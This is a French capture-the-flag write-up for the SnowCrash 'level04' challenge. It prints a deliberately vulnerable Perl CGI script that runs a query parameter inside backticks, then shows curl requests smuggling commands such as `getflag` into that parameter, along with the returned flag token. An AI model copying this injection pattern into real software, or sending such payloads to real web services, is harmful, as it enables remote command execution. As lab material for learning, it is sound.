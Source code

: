 # Level 04

## Étapes pour résoudre le challenge

1. **Identification et copie du fichier :**

   On commence par identifier le fichier `level04.pl` qui est un script Perl. Pour faciliter l'analyse, nous le copions sur notre machine locale.

   ```bash
   scp -P 4242 level04@localhost:~/level04.pl .
   ```

2. **Examen du fichier :**

   Pour avoir une première idée du contenu du fichier, on utilise la commande `cat` :

   ```bash
   cat level04.pl
   ```

   Le contenu du fichier est le suivant :

   ```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
     $y = $_[0];
     print `echo $y 2>&1`;
   }
   x(param("x"));
   ```

   On comprend plusieurs choses :
   - Le script utilise le module CGI pour récupérer des paramètres.
   - Il utilise la fonction `x` pour afficher le contenu de la variable `y`.
   - La variable `y` est récupérée via la fonction `param` du module CGI.

3. **Exploitation de la faille :**

   Le script exécute la commande `echo` avec la variable `y` sans aucune validation. Cela permet une injection de commande. Nous allons exploiter cette faille pour exécuter des commandes arbitraires.

4. **Exécution de commandes via injection :**

   Nous utilisons `curl` pour envoyer des requêtes HTTP avec des commandes injectées. Voici quelques exemples :

   ```bash
   level04@SnowCrash:~$ curl http://localhost:4747/?x="\`/usr/bin/id\`"
   uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)

   level04@SnowCrash:~$ curl http://localhost:4747/?x="\`/usr/bin/whoami\`"
   flag04
   ```

   Nous constatons que nous sommes déjà l'utilisateur `flag04`. Nous pouvons donc directement lire le flag.

5. **Obtention du flag :**

   En exécutant la commande suivante, nous obtenons le flag :

   ```bash
   level04@SnowCrash:~$ curl http://localhost:4747/?x="\`/bin/getflag\`"
   Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
   ```

6. **Connexion en tant que level05 :**

   Avec le flag obtenu, nous pouvons nous connecter en tant que `level05` :

   ```bash
   su level05
   ```

## Résumé

Pour résoudre ce challenge, nous avons exploité une vulnérabilité d'injection de commande dans un script Perl CGI. En utilisant des requêtes HTTP avec `curl`, nous avons pu exécuter des commandes arbitraires et obtenir le flag.

Le flag pour `level04` est : `ne2searoevaevoem4ov4ar8ap`.

